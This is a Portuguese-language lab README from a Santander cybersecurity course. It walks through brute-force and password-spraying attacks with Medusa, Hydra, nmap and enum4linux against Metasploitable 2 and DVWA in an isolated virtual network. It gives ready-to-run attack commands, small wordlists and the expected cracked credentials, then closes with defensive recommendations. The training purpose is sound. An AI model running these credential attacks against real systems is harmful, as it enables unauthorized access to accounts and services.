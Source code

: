 # ⚠️ Desafio Ataque de Força Bruta - Santander Cibersegurança 2025

## 🎯 Definições e Objetivo

Implementar, documentar e compartilhar um projeto prático utilizando Kali Linux e a ferramenta Medusa, em conjunto com ambientes vulneráveis (por exemplo, Metasploitable 2 e DVWA), para simular cenários de ataque de força bruta e exercitar medidas de prevenção.

> 💡 Este desafio é flexível! Você pode seguir os cenários propostos (FTP, DVWA, SMB) ou adaptar à sua realidade: experimentar outras ferramentas, criar novas wordlists, explorar módulos/serviços diferentes, ou apenas documentar em detalhes o que aprendeu, com estudos, reflexões e exemplos de código. O mais importante é demonstrar seu entendimento e compartilhar sua jornada de aprendizado!

## 1 - Configuração do Ambiente de Laboratório

### 1.1 Baixar e Instalar o VirtualBox

- [Baixar VirtualBox](https://www.virtualbox.org/wiki/Downloads)
- [Manual de Instalação (PDF)](https://download.virtualbox.org/virtualbox/7.2.2/UserManual.pdf)

### 1.2 Baixar ISO e Criar duas Máquinas Virtuais (VM)

- **VM1 - Kali Linux**  
  - [Download Kali Linux](https://www.kali.org/get-kali/)  
  - [Ver aula: *Preparando o ambiente com Kali e Metasploitable 2](https://web.dio.me/lab/criando-um-ataque-de-brute-force-de-senhas-com-medusa-e-kali-linux/learning/8984ac93-a831-4c59-99ba-46619fcb779c?back=/track/santander-ciberseguranca-2025)

- **VM2 - Metasploitable 2**  
  - [Download Metasploitable 2](https://sourceforge.net/projects/metasploitable/)  
  - [Ver aula: *Preparando o ambiente com Kali e Metasploitable 2](https://web.dio.me/lab/criando-um-ataque-de-brute-force-de-senhas-com-medusa-e-kali-linux/learning/8984ac93-a831-4c59-99ba-46619fcb779c?back=/track/santander-ciberseguranca-2025)

> Verifique se ambas as VMs estão na mesma rede (host-only).

Use `ifconfig` ou `ip a` para verificar o IP da VM2 (Metasploitable 2), geralmente `192.168.56.102`.

![ifconfig](images/ifconfig.png)  
![ip](images/ip.png)

### 1.3 Testar a Conectividade entre as VMs

Na VM1 (Kali Linux):

```bash
ping -c 3 192.168.56.102
```

![teste](images/teste.png)

---

## 2 - Enumeração Inicial

Utilize o `nmap` para descobrir serviços abertos:

```bash
nmap -sV -p 21-445 192.168.56.102
```

Serviços esperados:

- FTP (21)
- SSH (22)
- TELNET (23)
- SMTP (25)
- DOMAIN (53)
- HTTP (80 → DVWA)
- RPCBIND (111)
- SMB (139/445)

![portas](images/portas.png)

---

## 3 - Ataques com Medusa e Hydra

> O Medusa já vem instalado no Kali Linux.

### 3.1 Ataque ao FTP

**Wordlists:**

```txt
# users.txt
user
msfadmin
admin
root

# pass.txt
123456
password
qwerty
msfadmin
```

**Criação das listas:**

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

**Ataque com Medusa:**

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
```

Resultado esperado:

```
ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```

![ftp](images/ftp.png)

---

### 3.2a Ataque ao DVWA com Medusa

1. Acesse: `http://192.168.56.102/dvwa/login.php`
2. Login padrão: `admin:password`
3. Configure a segurança para **Low**
4. Identifique os parâmetros do formulário: `username`, `password`, `Login`

**Comando Medusa:**

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \
  -m PAGE:/dvwa/login.php \
  -m FORM:"username=^USER^&password=^PASS^&Login=Login" \
  -m FAIL:"Login failed" \
  -t 6
```

![dvwa](images/Medusadvwa.png)

---

### 3.2b Ataque ao DVWA com Hydra

**Comando Hydra:**

```bash
hydra -L users.txt -P pass.txt -t 4 192.168.56.102 http-post-form \
"/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V
```

Resultado esperado:

```
[80][http-post-form] host: 192.168.56.102   login: admin  password: password
```

![dvwa](images/Hydradvwa.png)

---

### 3.3 Ataque SMB com Password Spraying

#### 3.3.1 Enumeração de Usuários

```bash
enum4linux -a 192.168.56.102 | tee enum4_output.txt
less enum4_output.txt
```

![enum](images/enum.png)

#### 3.3.2 Ataque com Medusa

**Wordlists:**

```txt
# smb_users.txt
user
msfadmin
service

# senhas_spray.txt
password
123456
Welcome123
nmsfadmin
```

**Criação das listas:**

```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt
```

**Ataque:**

```bash
medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

Resultado esperado:

```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin
```

![smb](images/smb.png)

---

## Aprendizados

O Medusa apesar de eficaz em protocolos como FTP, SSH, SMB e Telnet, apresenta limitações em ataques a formulários HTTP POST, como:

- **Suporte limitado a HTTP**: não lida bem com redirecionamentos, cookies ou JavaScript.
- **Tokens dinâmicos**: não interpreta ou atualiza CSRF tokens.
- **Módulo inexistente**: `http-form` não existe no Medusa.
- **Erros frequentes**: interpreta incorretamente respostas válidas como erros.

**Ferramentas mais eficazes para formulários web:**

| Ferramenta     | Vantagens principais |
|----------------|----------------------|
| Hydra          | Suporte nativo a `http-post-form` |
| Burp Suite     | Manipulação de tokens, cookies e headers |
| WFuzz          | Fuzzing de parâmetros web |
| Patator        | Modular e adaptável a HTTP |

- **FTP**: Substituir por SFTP/FTPS. Desativar se não for essencial.
- **DVWA**: Nunca expor em produção. Usar autenticação forte e bloqueio após tentativas.
- **SMB**: Remover contas padrão (`msfadmin`, `user`), usar senhas fortes e segmentar a rede.
- **Geral**: Monitorar logs de autenticação e aplicar políticas de senhas robustas.

---

## Documentações Oficiais

- Kali Linux – [Site Oficial](https://www.kali.org/)
- DVWA – [Damn Vulnerable Web Application](https://github.com/digininja/DVWA)
- Medusa – [Documentação](https://tools.kali.org/password-attacks/medusa)
- Nmap – [Manual Oficial](https://nmap.org/book/man.html)
- Hydra – [Documentação](https://github.com/vanhauser-thc/thc-hydra)
